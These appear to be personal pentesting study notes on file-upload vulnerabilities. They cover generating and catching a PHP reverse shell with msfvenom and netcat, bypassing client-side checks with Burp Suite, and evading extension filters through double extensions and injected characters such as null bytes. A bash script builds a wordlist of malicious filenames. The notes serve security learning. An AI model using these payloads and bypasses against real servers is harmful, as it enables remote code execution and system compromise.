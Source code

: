 

PHP Reverse Shell Repository : https://github.com/pentestmonkey/php-reverse-shell

> While running the above reverse shell, we need to start the Netcat Listener : `nc -lvnp OUR_PORT`

Generating Custom Reverse Shell : `msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php`

## Client Side Validation
Use Burp Suite, on the front end, add a PNG File and then intercept this request and try to change the filename and add the payload in the body.

![[Pasted image 20250416175605.png]]

We can also remove the checkFile function present in the HTML, that would remove the Client Side Validation.

## Blacklisting Filters
**Fuzzing Extensions :**  To know what all files extensions are allowed we can simply use the BurpSuite and put a wordlist for it provided by Seclist.
![[Pasted image 20250416180959.png]]

## Whitelisting Filters
```php
$fileName = basename($_FILES["uploadFile"]["name"]);

if (!preg_match('^.*\.(jpg|jpeg|png|gif)', $fileName)) {
    echo "Only images are allowed";
    die();
}
```

If a web-server is using Filters like this, then we know here it is using Regex to check for the file type and we can surely trick the server for the file type.

## Double Extensions
The code only tests whether the file name contains an image extension; a straightforward method of passing the regex test is through `Double Extensions`. For example, if the `.jpg` extension was allowed, we can add it in our uploaded file name and still end our filename with `.php` (e.g. `shell.jpg.php`), in which case we should be able to pass the whitelist test, while still uploading a PHP script that can execute PHP code.
![[Pasted image 20250417125619.png]]

And if the Regex Pattern is something like this : 
```php
if (!preg_match('/^.*\.(jpg|jpeg|png|gif)$/', $fileName)) { ...SNIP... }
```
Then we can't use the above method.

## Character Injection
We can inject several characters before or after the final extension to cause the web application to misinterpret the filename and execute the uploaded file as a PHP script.

The following are some of the characters we may try injecting:

- `%20`
- `%0a`
- `%00`
- `%0d0a`
- `/`
- `.\`
- `.`
- `…`
- `:`

Each character has a specific use case that may trick the web application to misinterpret the file extension. For example, (`shell.php%00.jpg`) works with PHP servers with version `5.X` or earlier, as it causes the PHP web server to end the file name after the (`%00`), and store it as (`shell.php`), while still passing the whitelist. The same may be used with web applications hosted on a Windows server by injecting a colon (`:`) before the allowed file extension (e.g. `shell.aspx:.jpg`), which should also write the file as (`shell.aspx`). Similarly, each of the other characters has a use case that may allow us to upload a PHP script while bypassing the type validation test.

**Custom Wordlist Bash Script**
```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps'; do
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done
```
This will create a custom wordlist and then we can add that into the BurpSuite.

